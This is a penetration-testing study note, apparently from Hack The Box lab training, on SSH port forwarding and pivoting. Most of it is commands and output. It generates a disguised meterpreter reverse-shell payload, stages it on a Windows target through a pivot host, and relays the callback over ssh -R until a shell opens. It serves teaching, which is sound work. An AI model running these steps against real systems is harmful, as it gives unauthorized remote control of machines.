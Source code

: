 ```yaml
---
title: d-Reverse Port Forwarding w SSH
draft: false
tags:
  - reverse-port-forwarding
---
```

**Local Port Forwarding** is where SSH can listen on our local host and forward a service on the remote host to our port:

```shell-session
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```


**Dynamic Port Forwarding** is where we send packets to remote network via pivot host:

```shell-session
ssh -D 9050 ubuntu@10.129.202.64
```

```shell-session
jadu101@htb[/htb]$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

```shell-session
proxychains nmap -v -Pn -sT 172.16.5.19
```

Sometimes we might want to forward local service to the remote port as well and we need **Reverse Port Forwarding** for this. 

## Setup

Attack Host(10.10.15.5) -> Ubuntu Server(10.129.15.50,172.16.5.129) -> Windows Server(172.16.5.19)

In this case, it would be impossible to get a reverse shell from Windows Server to Attack host since Windows server doesn't know how to route traffic leaving it's network. 

We have make Ubuntu server the pivot host to spawn a reverse shell. 

1. Create msfvenom payload with receiver set as Ubuntu Server(172.16.5.129)
2. Ubuntu port 8080 forwards all reverse packets to attacker's port 8000.


## Create Payload

We will create a payload using msfvenom with receiver set as the pivot host and listening port as 8080:

```shell-session
jadu101@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

## Transfer Payload to PivotHost

We will now transfer the payload to the pivot host(ubuntu server)

```shell-session
jadu101@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe   
```

## Transfer Payload to Target

Now let's transfer payload from PivotHost to Target machine(windows).


Python web server on PivotHost:

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

We will download the payload to the target:

```powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

## Forwarding

We now have our payload on the Windows host. 

Let's use SSH remote port forwarding to forward connections from the Ubuntu server's port 8080 to our listener on port 8000.

```shell-session
jadu101@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

`-R` command asks the Ubuntu server to listen on port 8080 and forward all incoming connection to the attacker's port 8000. 

On metasploit, we now have the connection made once the payload runs:


```shell-session
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

Below is the summary:

- Create payload for PivotHost-Target
- Transfer the payload to target
- SSH forward traffic to attacker listener port
- Run the payload on the target
- Shell

